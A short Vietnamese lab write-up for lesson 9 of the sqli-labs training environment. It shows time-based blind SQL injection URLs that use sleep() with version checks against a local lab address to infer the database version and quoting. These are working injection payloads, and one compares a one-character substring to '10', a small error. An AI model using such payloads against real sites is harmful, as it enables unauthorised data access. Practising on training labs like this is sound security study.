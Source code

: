 # Những việc làm được với lesson-9
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-9 

![](../images/lesson9/screen_8.png)

1. Nhập giá trị id 

![](../images/lesson9/screen.png)

![](../images/lesson9/screen_1.png)

![](../images/lesson9/screen_2.png)

Ở bài này khác với bài 8 ta chỉ nhập id là có thể được pass qua. Và ta vẫn chưa thể biết được cấu trúc của nó. Sau khi xác định được máy sử dụng MariaDB bằng lệnh nmap như các bài trước ta đã làm. Thì ta dựa vào đó để đoán phiên bản và đoán được ra cấu trúc câu lệnh. MariaDB có 5.x và 10.x nên ta dựa vào đó để đoán ra cấu trúc của bài này 

```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson9/screen_3.png)

```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='10',sleep(5),false) --+
```

![](../images/lesson9/screen_4.png)

cứ như vậy với các ký tự đặc biệt ta sẽ có cấu trúc 
```
192.168.80.225/sqli-labs/Less-9/?id=1' and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson9/screen_5.png)

Sau khi biết được cấu trúc của nó ta có thể làm tương tự được các bài 7 và 8 như trước của ta đã làm. Để có thể show được giá trị của nó ra     
